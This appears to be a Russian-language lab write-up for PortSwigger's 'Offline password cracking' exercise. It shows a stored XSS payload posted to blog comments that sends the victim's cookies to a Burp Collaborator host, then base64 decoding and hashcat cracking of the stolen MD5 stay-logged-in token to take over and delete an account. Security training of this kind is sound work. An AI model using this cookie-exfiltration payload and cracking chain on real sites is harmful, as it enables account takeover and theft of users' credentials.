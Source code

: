 ```yaml
---
title: "Offline password cracking"
date: 2025-10-02
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-offline-password-cracking"
classes: wide
---
```


В данной лабе присутствует [XSS](https://ru.wikipedia.org/wiki/%D0%9C%D0%B5%D0%B6%D1%81%D0%B0%D0%B9%D1%82%D0%BE%D0%B2%D1%8B%D0%B9_%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D0%B8%D0%BD%D0%B3) уязвимость. Для решения лабы необходимо украсть `stay-logged-in` `Cookie` у `carlos`, получить доступ к аккаунту и удалить его. Даны креды от аккаунта `wiener`:`peter`.

```
https://0a68003203d2c5418051033700a50089.web-security-academy.net
```

## Solution

Зайду под данным аккаунтом. Мне выставили куку `stay-logged-in`:

```http
GET / HTTP/2
Host: 0a68003203d2c5418051033700a50089.web-security-academy.net
Cookie: session=xz39tRycULdqsRiWBn61J1oQhifRx5gW; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a68003203d2c5418051033700a50089.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

Попробую ее разобрать:

```bash
echo 'd2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw' | base64 -d
wiener:cdh
```

Так-с, вторая часть похожа на пароль, попробую понять алгоритм хеширования, так как пароль мне известен:

```bash
hashcat -m 0 -a 0 md5.txt ~/wordlists/rockyou.txt
51dc30ddc473d43a6011e9ebba6ca770:peter
```

С этим разобрался. Теперь нужно получить доступ к аккаунту `carlos`. Увидел секцию комментариев в постах блога. Попробую добавить туда `<script></script>`, так как известно, что есть `XSS` уязвимость.

```http
POST /post/comment HTTP/2
Host: 0a68003203d2c5418051033700a50089.web-security-academy.net
Cookie: session=xz39tRycULdqsRiWBn61J1oQhifRx5gW; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a68003203d2c5418051033700a50089.web-security-academy.net/post?postId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: https://0a68003203d2c5418051033700a50089.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers

postId=1&comment=%3Cscript%3Ealert%28%22comment%22%29%3C%2Fscript%3E&name=%3Cscript%3Ealert%28%22name%22%29%3C%2Fscript%3E&email=mail%40mail.com&website=http%3A%2F%2Fsite.com
```

И это сработало:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Offline_password_cracking/1.png){: height="200" .align-center}

Попробую украсть `cookie` у пользователя `carlos`. Для это использую `Burp Collaborator`. Также можно использовать свой сервер:

```js
<script>
document.location = "http://2lo3lq2q3rjgdhkuk2ps9lps4jaay2mr.oastify.com/" + document.cookie;
</script>
```

Мне пришел следующий запрос:

```http
GET /secret=hfAZzr9C3QNzL60PSGafiSqd0VYBPB6n;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1
Host: 2lo3lq2q3rjgdhkuk2ps9lps4jaay2mr.oastify.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
```

Разберу значение `Cookie`:

```bash
echo 'Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz' | base64 -d                                                carlos:26323c16d5f4dabff3bb136f2460a943

hashcat -m 0 -a 0 md5.txt ~/wordlists/rockyou.txt --show                                                               26323c16d5f4dabff3bb136f2460a943:onceuponatime
```

Попробую залогиниться со следующим кредами `carlos`:`onceuponatime`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Offline_password_cracking/2.png){: height="200" .align-center}

Получилось. Теперь удалю аккаунт:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Offline_password_cracking/3.png){: height="200" .align-center}

У меня была мысль попробовать удалить аккаунт через `XSS`, но для удаления аккаунта требуется ввести пароль, поэтому ничего бы не вышло(